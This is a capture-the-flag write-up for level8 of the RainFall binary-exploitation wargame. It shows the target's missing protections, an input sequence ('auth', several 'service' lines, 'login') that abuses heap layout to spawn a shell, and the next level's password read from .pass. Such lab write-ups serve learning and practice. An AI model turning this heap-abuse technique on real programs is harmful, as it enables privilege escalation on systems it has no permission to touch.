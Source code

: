 # level8

## Header

```bash
ssh level8@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8
```

<hr>

## Solution

```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth Hack
0x804a008, (nil) 
service Me if
0x804a008, 0x804a018 
service You 
0x804a008, 0x804a028 
service Can
0x804a008, 0x804a038 
login
$
```

And getting the flag in the shell:
```bash
$ pwd
/home/user/level8
$ cd ../level9
$ ls -la
total 17
dr-xr-x---+ 1 level9 level9   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level9 level9  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level9 level9 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus0 users  6720 Mar  6  2016 level9
-rw-r--r--+ 1 level9 level9   65 Sep 23  2015 .pass
-rw-r--r--  1 level9 level9  675 Apr  3  2012 .profile
$ cat .pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

## References
- [seta and setb](https://stackoverflow.com/questions/44630262/what-do-the-assembly-instructions-seta-and-setb-do-after-repz-cmpsb)
- [asm instructions](https://faydoc.tripod.com/cpu/cmps.htm)